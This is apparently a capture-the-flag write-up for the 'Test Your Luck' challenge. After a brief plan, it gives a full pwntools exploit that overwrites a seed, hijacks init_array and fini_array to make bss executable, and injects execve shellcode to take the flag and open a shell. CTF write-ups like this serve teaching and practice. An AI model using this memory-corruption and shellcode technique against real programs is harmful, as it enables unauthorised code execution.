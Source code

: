 # Test Your Luck

This challenge is interesting. I like Test Your Luck most!!!
We 
1. Modify the seed on bss to make sure we can guess the number
2. Modify init_array to mprotect bss to make it executable + Modify fini_array to reuse the vulnerability
3. Return to BSS

```python
from pwn import *
context.log_level='debug'
context.arch='amd64'

HOST = os.environ.get('HOST', 'localhost')
PORT = 31337
p=  remote(HOST, int(PORT))
ru         = lambda a:     p.readuntil(a)
r         = lambda n:        p.read(n)
sla     = lambda a,b:     p.sendlineafter(a,b)
sa         = lambda a,b:     p.sendafter(a,b)
sl        = lambda a:     p.sendline(a)
s         = lambda a:     p.send(a)


base = u64(p.read(8))
warning(hex(base))
xxx = 0x3000-0x400
sh=asm(shellcraft.execve("./submitter",0,0))
sh+=b"\x90"*((-len(sh))%8)
pay = b''
for _ in range(int(len(sh)//8)):
    pay+= p64(base+xxx+_*8)+sh[_*8:_*8+8]

p.send(p64(base+0x45B4)+p64(0)+\
       p64(base+0x4338)+p64(0x1200+base)+\
       p64(base+0x4330)+p64(0x1370+base)+\
       p64(0))
p.send(p32(0))
p.read(8)
p.send(pay+p64(base+0x45B4)+p64(0)+\
       p64(base+0x4330)+p64(xxx+base)+\
       p64(base+0x4330-8)+p64(xxx+base)+\
       p64(0))
flag = p.recvline_contains(b'LiveCTF{').decode().strip()
log.info('Flag: %s', flag)

p.interactive()
```  

# Other Challenges
I also contributed to other challenges. Although I didn't achieve the final exploit script. I'll reproduce some of them and attach them below.
